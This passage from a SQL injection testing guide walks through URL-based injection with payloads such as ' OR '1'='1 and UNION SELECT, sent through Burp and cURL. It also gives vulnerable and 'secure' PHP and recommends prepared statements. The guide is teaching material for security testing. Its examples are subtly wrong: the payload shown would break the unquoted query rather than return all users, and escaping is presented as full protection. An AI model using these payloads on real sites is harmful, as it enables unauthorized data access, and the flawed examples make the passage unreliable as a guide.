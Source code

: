**Note**: Payloads depend on the database (e.g., MySQL, MSSQL) and input context (e.g., URL, JSON). Test payloads in query parameters, POST bodies, headers, cookies, or API payloads where queries are constructed.

### 1. Test for Basic SQL Injection (URL-Based)

**Objective**: Verify if URL parameters are vulnerable to SQL injection.

**Steps**:
1. Identify URL parameters:
   - Visit: `http://example.com/page?id=1`.
2. Inject basic payloads:
   - Use Burp Repeater:
     ```http
     GET /page?id=1' OR '1'='1 HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?id=1' OR '1'='1"
     ```
3. Check responses:
   - Look for unauthorized data or success (e.g., all records).
   - Test: `' OR 1=1 --`, `' UNION SELECT NULL --`.
4. Test error payloads:
   - Try: `' AND 1=1 --`.

**Example Vulnerable Code (PHP)**:
```php
$id = $_GET['id'];
$result = mysqli_query($conn, "SELECT * FROM users WHERE id = $id");
```
Test: `?id=1' OR '1'='1`
Result: Returns all users.

**Example Secure Code (PHP)**:
```php
$id = mysqli_real_escape_string($conn, $_GET['id']);
$result = mysqli_query($conn, "SELECT * FROM users WHERE id = '$id'");
```
Test: No injection.

**Remediation**:
- Use prepared statements:
  ```php
  $stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
  $stmt->bind_param("i", $id);
  ```
- Validate input:
  ```php
  if (!is_numeric($id)) die("Invalid ID");
  ```

**Tip**: Save injection evidence in a report.

### 2. Test for Form-Based SQL Injection
